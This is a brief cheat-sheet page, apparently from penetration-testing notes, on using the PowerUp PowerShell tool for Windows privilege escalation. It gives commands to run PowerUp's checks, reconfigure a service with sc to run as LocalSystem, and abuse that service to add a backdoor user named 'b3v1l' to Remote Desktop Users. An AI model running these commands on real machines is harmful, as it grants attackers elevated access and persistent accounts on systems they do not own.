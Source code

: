 # PowerUp

## Enumeration

```csharp
. .\powerup.ps1
invoke-allchecks
```

## Service Abuse

{% hint style="info" %}
The service need to run as high privileged user. This can be changed using a sc in a cmd prompt.
{% endhint %}

```csharp
sc config MyService obj= "LocalSystem" password= ""
```

### Add user

```csharp
Invoke-ServiceUserAdd -ServiceName MyService -UserName b3v1l  -groupname "Remote Desktop Users"
```



